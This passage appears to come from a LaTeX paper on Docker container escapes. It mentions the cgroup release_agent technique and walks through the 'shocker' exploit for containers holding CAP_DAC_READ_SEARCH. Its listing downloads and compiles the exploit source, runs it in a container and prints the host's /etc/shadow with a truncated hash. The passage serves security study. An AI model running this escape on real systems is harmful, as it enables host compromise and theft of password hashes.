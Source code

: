 Unlike before, instead of relying on \lstinline{--privilege} to give us write access to a \lstinline{cgroup}, we just need to mount our own. This gives us exactly the same scenario as before. We use a \lstinline{release_agent} to run code on the host. The only difference being that we have to do some manual work ourselves.

\subsubsection{\texorpdfstring{\lstinline{CAP_DAC_READ_SEARCH}}{CAP_DAC_READ_SEARCH}}
Before Docker 1.0.0 \lstinline{CAP_DAC_READ_SEARCH} was added to the default capabilities that a containers are given. But this capability allows a process to escape its the container\cite{Docker-Shocker-Seclists}. To demonstrate this attack a proof of concept exploit was released\cite{Docker-Shocker}\cite{Docker-Shocker-Analysis}. This exploit has been released in 2014, but still works on containers with the \lstinline{CAP_DAC_READ_SEARCH} capability.

\hfill

\begin{lstlisting}[caption={Docker escape using \lstinline{CAP_DAC_READ_SEARCH}},captionpos=b]
(host)$ cd /tmp
(host)$ curl -O http://stealth.openwall.net/xSports/shocker.c
(host)$ sed -i "s/\/.dockerinit/\/tmp\/a.out/" shocker.c
(host)$ cc -Wall -std=c99 -O2 shocker.c -static
(host)$ docker run --rm -it --cap-add="CAP_DAC_READ_SEARCH" -v "/tmp:/tmp" busybox sh
(cont)# /tmp/a.out
...
[!] Win! /etc/shadow output follows:
...
admin:$6$VOSV5AVQ$jHWxAVAUgl...:18142:0:99999:7:::
\end{lstlisting}

The exploit needs a file with a file handle on the host system to properly work. Instead of the default \lstinline{/.dockerinit} (which is no longer created in newer versions of Docker) we use the exploit file itself \lstinline{/tmp/a.out}. We start a container with the \lstinline{CAP_DAC_READ_SEARCH} capability and run the exploit. It prints the password file of the host (\lstinline{/etc/shadow}).
